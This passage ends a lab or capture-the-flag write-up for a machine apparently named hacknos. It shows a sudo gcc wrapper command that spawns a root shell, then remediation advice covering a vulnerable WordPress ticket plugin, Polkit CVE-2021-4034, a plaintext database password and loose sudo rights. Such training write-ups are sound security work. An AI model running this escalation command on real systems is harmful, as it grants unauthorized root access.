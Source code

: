 When I use the `gcc` command:
```
$ hunter@hacknos:~$ sudo /usr/bin/gcc -wrapper /bin/bash,-s .
```
Then it works, I get the `root` shell, and I get the `root` flag again:

![evidence](./static/16-censored-rootflag.png)

## Remediation
Given I find a `WordPress` site, and it uses the `WP Support Plus Responsive Ticket System` plugin, but it has a version lower than `8.0.8`, and it allows RCE, and the server is vulnerable to `Polkit` privilege escalation `CVE-2021-4034`, and I can escalate to the `root` user with that, but it also has a plain text password in the `WordPress` database, and the users have `sudo` privileges which allow scaling, then they should update the `WordPress` plugin to its latest version, and to fix the `CVE-2021-4034`, update the `Polkit` package, and properly store passwords, and check the `sudo` privileges of all users, then with that, it may not be possible to get the root's shell.